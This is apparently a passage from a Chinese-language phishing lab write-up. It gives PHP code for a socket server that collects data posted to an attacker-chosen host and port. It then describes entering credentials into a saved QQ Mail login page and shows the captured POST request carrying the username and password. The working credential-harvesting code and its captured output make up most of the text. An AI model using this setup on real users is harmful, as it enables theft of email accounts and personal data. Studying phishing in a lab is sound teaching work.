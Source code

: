 ### PHP

```php
<?php
$ip = '192.168.43.161';
$port = 9090;
//创建socket
$socket = socket_create(AF_INET,SOCK_STREAM,SOL_TCP);
//把socket绑定在一个IP地址和端口上
socket_bind($socket,$ip,$port);
//监听由指定socket的所有连接
socket_listen($socket,4);
while(true){
    //接收一个Socket连接
    $sk = socket_accept($socket);
    // 获得客户端的输入
    $buf = socket_read($sk, 2048);
    echo $buf;
    //关闭socket
    socket_close($sk);
}
?>
```

![image-20220413223216659](Fishing.assets/image-20220413223216659.png)

## 验证

3 、实验验证

（1 )用浏览器打开保存的 QQ 邮箱首页，填写账号和密码， 然后单击登录按钮， 观察服务端程序所接收到的数据。

```json
POST / HTTP/1.1
Host: 192.168.43.161:9090
Connection: keep-alive
Content-Length: 19
Pragma: no-cache
Cache-Control: no-cache
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.75 Safari/537.36
Content-type: application/x-www-form-urlencoded
Accept: */*
Origin: null
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8

user=123456&pwd=123
```
